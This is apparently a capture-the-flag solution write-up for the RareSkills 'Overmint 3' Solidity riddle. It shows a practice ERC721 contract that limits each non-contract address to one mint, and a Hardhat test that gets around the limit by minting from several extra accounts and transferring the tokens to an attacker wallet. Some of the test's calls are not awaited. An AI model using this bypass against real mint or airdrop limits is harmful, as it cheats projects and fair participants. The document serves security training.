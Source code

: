 ```yaml
---
title: RareSkills Solidity Riddles - Overmint 3 - Solution
date: '2023-11-29'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the RareSkills Solidity Riddles - Overmint 3 CTF
---
```


## Contracts

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.15;
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

contract Overmint3 is ERC721 {
    using Address for address;
    mapping(address => uint256) public amountMinted;
    uint256 public totalSupply;

    constructor() ERC721("Overmint3", "AT") {}

    function mint() external {
        require(!msg.sender.isContract(), "no contracts");
        require(amountMinted[msg.sender] < 1, "only 1 NFT");
        totalSupply++;
        _safeMint(msg.sender, totalSupply);
        amountMinted[msg.sender]++;
    }
}
```

## Exploit

To solve this riddle, we have to find a way to mint 5 NFTs to the attacker's wallet. While we can't call `mint()` five times from the attacker's wallet because of the second `require` statement, we can create four additional accounts, mint NFTs from these accounts, and subsequently transfer those NFTs to the attacker's wallet.

_Overmint3.js_

```javascript
const { time, loadFixture } = require('@nomicfoundation/hardhat-network-helpers')
const { anyValue } = require('@nomicfoundation/hardhat-chai-matchers/withArgs')
const { expect } = require('chai')
const { ethers } = require('hardhat')

const NAME = 'Overmint3'

describe(NAME, function () {
  async function setup() {
    const [owner, attackerWallet] = await ethers.getSigners()

    const VictimFactory = await ethers.getContractFactory(NAME)
    const victimContract = await VictimFactory.deploy()

    return { victimContract, attackerWallet }
  }

  describe('exploit', async function () {
    let victimContract, attackerWallet
    before(async function () {
      ;({ victimContract, attackerWallet } = await loadFixture(setup))
    })

    it('conduct your attack here', async function () {
      const [owner, attackerWallet, user1, user2, user3] = await ethers.getSigners()
      victimContract.connect(owner).mint()
      victimContract.connect(owner).transferFrom(owner.address, attackerWallet.address, 1)
      victimContract.connect(user1).mint()
      victimContract.connect(user1).transferFrom(user1.address, attackerWallet.address, 2)
      victimContract.connect(user2).mint()
      victimContract.connect(user2).transferFrom(user2.address, attackerWallet.address, 3)
      victimContract.connect(user3).mint()
      victimContract.connect(user3).transferFrom(user3.address, attackerWallet.address, 4)
      victimContract.connect(attackerWallet).mint()
    })

    after(async function () {
      expect(await victimContract.balanceOf(attackerWallet.address)).to.be.equal(5)
      expect(await ethers.provider.getTransactionCount(attackerWallet.address)).to.equal(
        1,
        'must exploit one transaction'
      )
    })
  })
})
```
